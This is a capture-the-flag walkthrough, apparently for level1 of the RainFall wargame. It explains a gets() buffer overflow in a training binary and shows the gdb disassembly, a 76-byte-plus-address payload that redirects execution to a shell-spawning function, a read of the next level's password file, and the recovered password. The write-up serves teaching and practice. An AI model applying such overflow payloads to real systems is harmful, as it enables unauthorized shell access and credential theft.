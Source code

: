 ### Exploit

First, what do we see when we test the executable? On the face of it, the programme expects some user input and then leaves.
Indeed, there's not much more to it.

```
    (gdb) disas main
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
```
Thankfully, there's another function which isn't called anywhere in <main>, that is <run>. This function is interesting, as it makes a syscall and spawns a shell! However, how do we get to execute a function that's not called at all? This is when we first introduce the notion of "payload". An exploit is a piece of code written to take advantage of a particular vulnerability. A payload is a piece of code to be executed through said exploit. The exploit in our case is the well-known bufferover flow. Therefore, we want to write a payload which'll exploit this vulnerabilty. A buffer of size 76 is instantiated at the beginning of the programme. Giviing the programme a string bigger than said size will result in a segfault.

The address of <run> is `0x08048444`. 

```
    level1@RainFall:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload
    level1@RainFall:~$ cat /tmp/payload - | ./level1
    Good... Wait what?
    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Most upcoming exploits look like this one, more or less, so let's keep this mind.
